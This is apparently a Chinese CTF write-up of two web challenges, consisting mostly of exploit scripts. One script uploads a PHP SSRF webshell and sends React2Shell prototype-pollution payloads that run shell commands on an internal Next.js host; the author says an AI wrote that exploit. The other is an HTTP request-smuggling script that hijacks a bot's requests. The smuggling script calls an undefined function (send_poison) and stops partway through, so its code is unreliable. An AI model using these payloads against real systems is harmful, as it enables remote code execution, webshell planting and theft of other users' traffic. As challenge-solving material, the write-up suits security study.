

查看 ip 信息

```python
import requests

TARGET = 'http://1.116.118.188:32710'


php_code = b'''<?php
 $ch = curl_init();

curl_setopt($ch, CURLOPT_URL, $_GET['ip']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$output = curl_exec($ch);

if($output === FALSE){
    echo "CURL Error: " . curl_error($ch);
} else {
    echo $output;
}
curl_close($ch);

?>'''


r = requests.post(
    TARGET + '/upload_handler.php',
    files={'fileToUpload': ('1.php', php_code, 'application/octet-stream')},
    data={'submit': 'upload'},
    allow_redirects=False   
)
print(f"Upload status: {r.status_code}")  


for i in range(255):
    r = requests.get(TARGET + '/uploads/1.php?ip=10.0.0.' + str(i))
    print(r.text)     

```



发现 10.0.0.2 存活，其他都是超时 timeout=3. 端口对不上，扫一下端口发现



ai 写 exp 打react2shell。

```python
import requests
import json
import base64

TARGET = 'http://1.116.118.188:32710'

cmd = "cat /flag"

c0_v1 = json.dumps({
    "status": "resolved_model",
    "then": "$1:then",
    "value": '{"then": "$B114514"}',
    "_response": {
        "_prefix": f"var res=process.mainModule.require('child_process').execSync('{cmd}',{{'timeout':5000}}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {{digest: res}});////",
        "_formData": {
            "get": "$1:constructor:constructor"
        }
    },
    "reason": -114514,
})
c1_v1 = '"$@114514"'

c0_v2 = json.dumps({
    "then": "$1:then",
    "value": '{"then": "$B114514"}',
    "_response": {
        "_prefix": f"var res=process.mainModule.require('child_process').execSync('{cmd}',{{'timeout':5000}}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {{digest: res}});////",
        "_formData": {
            "get": "$1:constructor:constructor"
        }
    },
    "reason": "$0:_formData:get",
})
c1_v2 = '"$@114514"'


c0_v3 = json.dumps({
    "then": "$1:__proto__:then",
})
c1_v3 = '"$@0"'

def make_php(c0, c1, label):
    c0_b64 = base64.b64encode(c0.encode()).decode()
    c1_b64 = base64.b64encode(c1.encode()).decode()
    lines = [
        '<?php',
        'error_reporting(E_ALL);',
        'ini_set("max_execution_time", 30);',
        f'echo "=== {label} ===\\n";',
        f'$c0 = base64_decode("{c0_b64}");',
        f'$c1 = base64_decode("{c1_b64}");',
        'echo "c0: $c0\\nc1: $c1\\n\\n";',
        '$ch = curl_init();',
        'curl_setopt($ch, CURLOPT_URL, "http://10.0.0.2:3000/");',
        'curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);',
        'curl_setopt($ch, CURLOPT_TIMEOUT, 10);',
        'curl_setopt($ch, CURLOPT_POST, true);',
        'curl_setopt($ch, CURLOPT_POSTFIELDS, array("0" => $c0, "1" => $c1));',
        'curl_setopt($ch, CURLOPT_HTTPHEADER, array("Next-Action: x"));',
        'curl_setopt($ch, CURLOPT_HEADER, true);',
        '$result = curl_exec($ch);',
        '$code = curl_getinfo($ch, CURLINFO_HTTP_CODE);',
        '$err = curl_error($ch);',
        'curl_close($ch);',
        'echo "HTTP $code | Error: $err\\nResponse:\\n$result\\n";',
        '?>',
    ]
    return '\n'.join(lines).encode('utf-8')

variants = [
    (c0_v1, c1_v1, "V1_resolved_model"),
    (c0_v2, c1_v2, "V2_reason_ref"),
    (c0_v3, c1_v3, "V3_proto_simple"),
]

for i, (c0, c1, label) in enumerate(variants):
    php_bytes = make_php(c0, c1, label)
    fname = f'v{i+1}.php'
    
    print(f"\n=== {label} ===")
    r = requests.post(
        TARGET + '/upload_handler.php',
        files={'fileToUpload': (fname, php_bytes, 'application/octet-stream')},
        data={'submit': 'upload'},
        allow_redirects=False
    )
    print(f"Upload: {r.status_code}")
    
    r = requests.get(TARGET + f'/uploads/{fname}', timeout=30)
    print(f"Execute: {r.status_code}")
    print(r.text[:3000])

```



flag{tARGeT_lN_FAK3-taRG3T_XixI6c13e7bf6}

#### 新闻

应该有一个 bot 每隔几秒发布一个新闻，



/@fs/ 能任意读取文件，

```
/usr/bin/python3\u0000/usr/bin/supervisord\u0000-c\u0000/etc/supervisor/conf.d/supervisord.conf
```

```conf
[supervisord]
nodaemon=true
user=root

[program:rust-backend]
directory=/app
command=/app/backend_server
user=ctf
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:vite-frontend]
directory=/app/frontend
command=npm run dev -- --host 0.0.0.0 --port 5173
user=ctf
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:node-proxy]
directory=/app/frontend
command=node proxy.js
user=root
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

启动 proxy.js, 前端和后端 rust

读取前端文件

```
/app/frontend/package.json
```

```js
import http from 'http';
import httpProxy from 'http-proxy';

const RUST_TARGET = 'http://127.0.0.1:3000';
const VITE_TARGET = 'http://127.0.0.1:5173';

const proxy = httpProxy.createProxyServer({
  agent: new http.Agent({ 
    keepAlive: true,      
    maxSockets: 100,      
    keepAliveMsecs: 10000 
  }),
  xfwd: true,            
});


proxy.on('error', (err, req, res) => {
  console.error('[Proxy Error]', err.message);
  if (res && !res.headersSent) {
    try { 
      res.writeHead(502); 
      res.end('Bad Gateway'); 
    } catch(e) {}
  }
});


const server = http.createServer((req, res) => {
  
  if (req.url.startsWith('/api/')) {
    // 如果路径以 /api/ 开头，转发给 Rust 后端
    proxy.web(req, res, { target: RUST_TARGET });
  } else {
    // 其余请求，转发给 Vite 前端
    proxy.web(req, res, { target: VITE_TARGET });
  }
});


console.log("馃敟 Node.js Dumb Proxy running on port 80");
server.listen(80);
```

继续读取 rust 文件,在 main.rs 中发现还有 handlers http_parser 两个文件

```
main.rs
http_parser.rs
handlers.rs
```

http_parser.rs 自己写的解析器，只解析 cl 头，不管 te 头，同时 bot 还在不断发送请求，应该是 http 走私



```python
import socket
import time
import uuid
import requests
import concurrent.futures, re, os, sys

HOST = "1.116.118.188"
PROXY_PORT = 30545   
RUST_PORT  = 31698  
RUST = f"http://{HOST}:{RUST_PORT}"

uid = str(uuid.uuid4())[:8]
username = f"wsh_{uid}"
r = requests.post(f"{RUST}/api/register",
                    json={"username": username, "password": "wsh"},
                    timeout=3,
                    proxies={"http": None, "https": None})
token = r.json()["token"]
print(f"[+] 注册成功:{username}, token={token}")

# payload
prefix = "content=STOLEN:"
extra_cl = 300
total_cl = len(prefix) + extra_cl

internal_pkt = (
    f"POST /api/comment HTTP/1.1\r\n"
    f"Host: 127.0.0.1:3000\r\n"
    f"Content-Type: application/x-www-form-urlencoded\r\n"
    f"Authorization: {token}\r\n"
    f"Content-Length: {total_cl}\r\n"
    f"\r\n"
    f"{prefix}"
)
chunk_size = format(len(internal_pkt), "x")

outer_pkt = (
    f"POST /api/register HTTP/1.1\r\n"
    f"Host: {HOST}:{PROXY_PORT}\r\n"
    f"Content-Type: application/json\r\n"
    f"Transfer-Encoding: chunked\r\n"
    f"\r\n"
    f"{chunk_size}\r\n"
    f"{internal_pkt}\r\n"
    f"0\r\n"
    f"\r\n"
)

# 
def send_payload():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((HOST, PROXY_PORT))
        s.sendall(outer_pkt.encode())
        time.sleep(0.5)
        try:
            s.recv(65536)
        except Exception:
            pass
        s.close()
        return True
    except Exception:
        return False

Poison_count = 5
for rnd in range(20):
    print(f"[*] Round {rnd+1}: 污染连接池...")
    with concurrent.futures.ThreadPoolExecutor(max_workers=5) as ex:
        futs = [ex.submit(send_poison) for _ in range(Poison_count)]
        ok_poison = sum(1 for f in concurrent.futures.as_completed(futs) if f.result())
    print(f"完成污染{ok_poison}/{Poison_count} 条连接")

    print(f"等待 25 s让 Bot 触发")
    time.sleep(25)

    try:
        r = requests.get(f"{RUST}/api/comment",headers={"Authorization": token},timeout=15,proxies={"http": None, "https": None})
        comments = r.json()
    except Exception as e:
        print(f"读取评论失败: {e}")
        continue
```


